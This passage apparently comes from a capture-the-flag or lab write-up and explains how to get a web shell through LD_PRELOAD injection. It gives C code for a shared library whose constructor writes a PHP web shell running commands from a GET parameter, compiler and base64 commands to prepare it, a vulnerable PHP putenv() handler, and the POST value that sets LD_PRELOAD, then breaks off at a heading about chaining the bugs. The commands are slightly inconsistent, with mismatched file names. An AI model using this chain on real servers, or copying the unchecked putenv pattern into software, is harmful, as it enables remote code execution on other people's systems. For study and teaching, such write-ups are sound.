 ```c
__attribute__((constructor))
void init() {
    FILE *fp = fopen("/var/www/html/2.php", "w");
    if (fp) {
        fprintf(fp, "<?php system($_GET['c']); ?>");
        fclose(fp);
    }
}
```
We'll compile it like this : 
```bash
gcc -fPIC -shared -o tou.so evil.c -Wl,-z,max-page-size=0x1000
``` 
Then we will base64 encode the content of the 1.txt : 
```bash
base64 -w 0 tou.s > payload.b64
```
Et Voilà We generated our malicious **shared object**.

#### 2) Environment poisoning (putenv)
```php
if(isset($_POST['env'])){
    $env = $_POST['env'];
    putenv($env);
}
```
The `putenv($_POST['env'])` line is **pure PHP chaos** , it’s like giving a toddler a Sharpie and saying, *"Go draw on the environment variables!"* No checks, no filters, just **blind trust**. One `POST` and *boom* - your `LD_PRELOAD` is now the boss of `ld.so`. It’s not a bug… it’s a **backdoor with a welcome mat**.

> *“Trusting user input for `putenv()`? That’s not a feature. That’s **root via friendship**.”* 

**We exploit it like this:**  
```bash
env=LD_PRELOAD=/var/www/html/1.txt
```

> → **Me:** “Hey linker, load **my** library first, (malicious payload)”  
> → **`wget` starts**  
> → **`ld.so` reads env**  
> → **Our `.so` wins the race** 
> → **Constructor pops shell**

### TL;DR - What is `LD_PRELOAD`?
 **`LD_PRELOAD` is an environment variable that tells the Linux dynamic linker (`ld.so`) to load your chosen shared library **before** any other library — even system ones like `libc`.**  
> It’s meant for debugging or patching, but **if you control it**, you control what code runs when a program starts.


## Chaining All Bugs to Drop a Webshell
